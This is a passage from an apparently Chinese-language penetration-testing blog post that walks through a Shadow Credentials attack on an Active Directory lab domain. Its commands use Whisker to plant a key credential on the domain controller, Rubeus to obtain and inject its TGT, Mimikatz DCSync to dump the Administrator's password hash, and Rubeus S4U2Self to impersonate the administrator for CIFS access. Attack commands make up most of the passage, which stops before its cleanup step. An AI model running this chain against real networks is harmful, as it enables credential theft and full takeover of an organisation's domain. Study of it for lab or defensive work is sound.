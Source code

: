 （1）执行以下命令，通过 Whisker 的 `add` 命令向域控制器的 `msDS-KeyCredentialLink` 属性添加 Shadow Credentials 

```console
C:\Users\Marcus\Desktop> Whisker.exe add /target:DC01$ /domain:pentest.com /dc:DC01.pentest.com
```

![](/assets/posts/2022-04-27-shadow-credentials/image-20220427135940527.png)

通过 `list` 命令可以列出目标对象的 `msDS-KeyCredentialLink` 属性的所有条目，如下图所示。

```console
C:\Users\Marcus\Desktop> Whisker.exe list /target:DC01$ /domain:pentest.com /dc:DC01.pentest.com
```

![](/assets/posts/2022-04-27-shadow-credentials/image-20220427140123948.png)

（2）Whisker  `add` 命令的输出中提供了 Rubeus 命令，使用该命令可以使用基于证书的身份验证请求 TGT 票据。这里我们在 Whisker 提供的 Rubeus 命令后面加上了 `/ptt`，以将请求到的 TGT 传递到内存中。

```console
C:\Users\Marcus\Desktop> Rubeus.exe asktgt /user:DC01$ /certificate:<Base64Certificate> /password:"AYOjT1jNMyrxNAss" /domain:pentest.com /dc:DC01.pentest.com /getcredentials /show /ptt
```

![](/assets/posts/2022-04-27-shadow-credentials/image-20220427142210115.png)

执行 `klist` 命令可以看到，当前机器中已经缓存了域控制器的 TGT 票据，如下图所示。

![](/assets/posts/2022-04-27-shadow-credentials/image-20220427142429793.png)

由于域控制器账户拥有所需特权，我们可以通过 Mimikatz 执行 DCSync 来导出域用户哈希，如下图所示。

```console
C:\Users\Marcus\Desktop> mimikatz.exe "lsadump::dcsync /domain:pentest.com /user:PENTEST\Administrator" exit
```

![](/assets/posts/2022-04-27-shadow-credentials/image-20220427142500059.png)

此外，我们可以通过 Kerberos 的 S4U2Self 扩展协议，使用已获取的域控 TGT 为域管理员用户申请针对域控上其他服务的的 ST 票据。这里我们请求的是域控制器的 CIFS 服务，相关命令如下：

```console
C:\Users\Marcus\Desktop> Rubeus.exe s4u /self /impersonateuser:PENTEST\Administrator /altservice:CIFS/DC01.pentest.com /dc:DC01.pentest.com /ptt /ticket:<Base64EncodedTicket>
```

![](/assets/posts/2022-04-27-shadow-credentials/image-20220427142657658.png)

执行 `klist` 命令可以看到，当前机器中已经缓存了域管理员的 TGT 票据，该票据可以用来访问域控制器的 CIFS 服务，如下图所示。

![](/assets/posts/2022-04-27-shadow-credentials/image-20220427142717172.png)

此时，我们可以使用标准用户帐户远程访问域控制器的共享资源，如下图所示：

![](/assets/posts/2022-04-27-shadow-credentials/image-20220427142734492.png)

如果想要删除添加到目标对象 `msDS-KeyCredentialLink` 属性的密钥凭据，可以执行以下命令。
